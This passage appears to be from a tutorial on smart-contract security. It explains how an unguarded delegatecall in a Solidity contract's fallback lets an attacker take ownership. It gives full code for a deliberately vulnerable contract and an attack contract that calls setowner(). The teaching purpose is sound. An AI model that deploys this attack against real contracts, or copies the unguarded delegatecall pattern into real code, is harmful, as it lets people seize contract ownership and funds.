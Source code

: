 ```solidity
function attack() public {
        vulnerable.call(abi.encodeWithSignature("setowner()"));
    }
```

This attempt of the `attack()` function will trigger the `fallback()` function inside the `Vulnerable` contract. If we recall, the `fallback()` function makes a `delegatecall` to the `Lib` contract and sends the `msg.data` to it. But how does this affect the `Vulnerable` contract?

- Since the `fallback` function sends the `msg.data` which matches the `setowner()` function to the `Lib` contract, the `setowner()` function is called.
- The `setowner()` function then updates the `owner` variable.
- Since the `delegatecall` runs its code using the storage of the `Vulnerable` contract, the `owner` variable that will be updated is the one inside the `Vulnerable` contract.
- The `setowner()` function sets the owner variable to `msg.sender` and since `msg.sender` refers to the caller of  `Vulnerable`, in this case, `AttakVulnerable`, the new owner will be  `AttackVulnerable`.

Find the full code here:

```solidity
pragma solidity ^0.8.13;
/*
1. OwnerA deploys Lib
2. OwnerA deploys Vulnerable with the address of Lib
3. Attacker deploys AttackVulnerable with the address of Vulnerable
4. Attacker calls AttackVulnerable.attack()
5. Attack is now the owner of Vulnerable
*/

contract Lib {
    address public owner;

    function setowner() public {
        owner = msg.sender;
    }
}

contract Vulnerable {
    address public owner;
    Lib public lib;

    constructor(Lib _lib) {
        owner = msg.sender;
        lib = Lib(_lib);
    }

    fallback() external payable {
        address(lib).delegatecall(msg.data);
    }
}

contract AttackVulnerable {
    address public vulnerable;

    constructor(address _vulnerable) {
        vulnerable = _vulnerable;
    }

    function attack() public {
        vulnerable.call(abi.encodeWithSignature("setowner()"));
    }
}
```
